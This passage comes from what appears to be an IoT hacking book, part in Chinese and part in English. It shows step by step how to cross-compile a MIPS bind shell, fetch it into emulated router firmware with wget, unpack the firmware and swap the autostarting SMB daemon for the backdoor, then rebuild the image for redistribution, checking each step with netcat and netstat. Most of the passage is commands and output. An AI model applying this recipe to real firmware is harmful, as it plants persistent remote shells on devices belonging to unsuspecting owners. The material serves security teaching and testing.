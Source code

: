 ```    在 OpenWrt 的 *staging_dir/toolchain-mips_24kc_gcc-8.3.0_musl/bin/* 文件夹中，你会找到 *mips-openwrt-linux-gcc* 编译器，你可以按如下方式使用它：    ``` $ **export STAGING_DIR="/root/Desktop/****mips_backdoor****/****openwrt****/****staging_dir****"** $ **./openwrt/staging_dir/toolchain-mips_24kc_gcc-8.3.0_musl/bin/mips-openwrt-linux-gcc** **bindshell.c** **-o** **bindshell****-static -EB -march=24kc** ```    这应该会输出一个名为 *bindshell* 的二进制文件。使用 FIRMADYNE 将二进制文件传输到模拟固件中，并验证它是否正常工作。你可以通过使用 Python 在二进制所在的文件夹中创建一个迷你 web 服务器来轻松实现：    ``` $ **p****ython -m** **SimpleHTTPServer** **8080 /** ```    然后，在模拟固件中，使用 `wget` 命令下载二进制文件：    ``` $ **wget** **http://192.168.1.2:8080/bindshell** Connecting to 192.168.1.2[192.168.1.2]:80 bindshell 100% |*****************************| 68544       00:00 ETA $ **chmod** **+****x .****/****bindshell** $ **.****/****bindshell** ```    为了验证后门代理是否有效，尝试从主机设备使用 Netcat 连接它。一个交互式 shell 应该会出现。    ``` $ **nc** **192.168.1.1 9999** [~] Welcome to @OsandaMalith's Bind Shell ls -l drwxr-xr-x    2 0        0            4096 bin drwxr-xr-x    4 0        0            4096 boaroot drwxr-xr-x    6 0        0            4096 dev … ```    在此阶段，我们需要修补固件，以便能够重新分发它。为此，我们可以使用开源项目 *firmware-mod-kit*。首先使用 `apt-get` 安装必要的系统包：    ``` $ **sudo** **apt-get install git build-essential zlib1g-dev** **liblzma****-dev python-magic** **bsdmainutils** ```    然后使用 `git` 命令从 GitHub 仓库下载该应用程序。这个仓库托管了一个分叉版本的应用程序，因为原始版本已经不再维护。应用程序文件夹中包含一个名为 *./extract-firmware.sh*` 的脚本，你可以使用该脚本通过类似 FIRMADYNE 的过程提取固件。   ````` ``` $ **git clone https://github.com/rampageX/firmware-mod-kit** $ **cd firmware-mod-kit** $ **./extract-firmware.sh D6000-V1.0.0.41_1.0.1.bin**  Firmware Mod Kit (extract) 0.99, (c)2011-2013 Craig Heffner, Jeremy Collake Preparing tools ... … Extracting 1418962 bytes of  header image at offset 0 Extracting squashfs file system at offset 1418962 Extracting 2800 byte footer from offset 9668730 Extracting squashfs files... Firmware extraction successful! Firmware parts can be found in '/root/Desktop/firmware-mod-kit/fmk/*' ```    For the attack to be successful, the firmware should replace an existing binary that runs automatically, guaranteeing that any normal use of the device will trigger the backdoor. During the dynamic analysis phase, we indeed identified a binary like that: an SMB service running at port 445\. You can find the *smbd* binary in the */userfs/bin/smbd* directory. Let’s replace it with the bindshell:    ``` $ **cp bindshell /userfs/bin/smbd** ```    After replacing the binary, reconstruct the firmware using the `build-firmware` script:    ``` $ **./build-firmware.sh** firmware Mod Kit (build) 0.99, (c)2011-2013 Craig Heffner, Jeremy Collake Building new squashfs file system... (this may take several minutes!) Squashfs block size is 128 Kb … Firmware header not supported; firmware checksums may be incorrect.  New firmware image has been saved to: /root/Desktop/firmware-mod-kit/fmk/new-firmware.bin ```    Then use `firmadyne` to verify that when the firmware boots, the bindshell is still working. Using `netstat`, you can verify that the firmware’s SMB service, which normally listens for new connections at port 445, has been replaced with the backdoor agent, which listens for new connections on port 9999:    ``` $ **netstat -a -n -u -t** Active Internet connections (servers and established) Proto Recv-Q Send-Q Local Address           Foreign Address         State       tcp        0      0 0.0.0.0:3333            0.0.0.0:*               LISTEN       `tcp        0      0 0.0.0.0:9999            0.0.0.0:*`               LISTEN       tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN       tcp        0      0 192.168.1.1:23          0.0.0.0:*               LISTEN       tcp        0      0 :::80                   :::*                    LISTEN       tcp        0      0 :::53                   :::*                    LISTEN       tcp        0      0 :::443                  :::*                    LISTEN       udp        0      0 0.0.0.0:57218           0.0.0.0:*                            udp        0      0 192.168.1.1:137         0.0.0.0:*                            udp        0      0 0.0.0.0:137             0.0.0.0:*                            udp        0      0 192.168.1.1:138         0.0.0.0:*                            udp        0      0 0.0.0.0:138             0.0.0.0:*                            udp        0      0 0.0.0.0:53              0.0.0.0:*                            udp        0      0 0.0.0.0:67              0.0.0.0:*                            udp        0      0 :::53                   :::*                                 udp        0      0 :::69                   :::*